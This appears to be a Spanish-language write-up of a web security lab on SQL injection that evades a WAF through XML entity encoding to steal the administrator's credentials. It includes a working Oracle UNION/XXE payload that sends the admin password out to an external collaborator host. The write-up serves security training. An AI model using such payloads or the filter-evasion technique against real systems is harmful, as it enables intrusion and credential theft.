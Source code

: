 
Cookie: TrackingId=OM2UeUHT1Q74XfV4" union SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25
remote SYSTEM "http://'||(select password from users where username='administrator')||'.em4651c8ntonsu7rwg3gtectkkqce52u.oastify.com/">
%25remote%3b]>"),'/1') FROM dual--     

session=GknxCGss@6A1lpHSaxkE1ZY91z6sfhXrU

# Laboratorio: Inyección SQL con omisión de filtro mediante codificación XML

Este laboratorio contiene una vulnerabilidad de inyección SQL en su función de verificación de stock. Los resultados de la consulta se devuelven en la respuesta de la aplicación, por lo que puede utilizar un ataque UNION para recuperar datos de otras tablas.

La base de datos contiene un users tabla, que contiene los nombres de usuario y contraseñas de los usuarios registrados. Para resolver el laboratorio, realice un ataque de inyección SQL para recuperar las credenciales del usuario administrador y luego inicie sesión en su cuenta.


- Inicialmente identificamos que el valor de ‘storeId‘ es evaluado por el backend, permitiendo realizar operaciones como ‘1+1‘. Luego intentamos una inyección clásica mediante ‘UNION SELECT‘, pero la aplicación bloquea el intento, presumiblemente por un sistema WAF (Web Application Firewall).

- Para evadir este filtro, aplicamos codificación de entidades XML (por ejemplo, hexadecimal o decimal), utilizando herramientas como la extensión Hackvertor en Burp Suite. Este bypass permite que el payload pase desapercibido y sea ejecutado por el backend.

- A través de prueba y error, determinamos que la consulta original solo permite devolver una columna, por lo que concatenamos ‘username‘ y ‘password‘ con un separador (~) para extraer los datos de la tabla ‘users‘ en una sola columna.
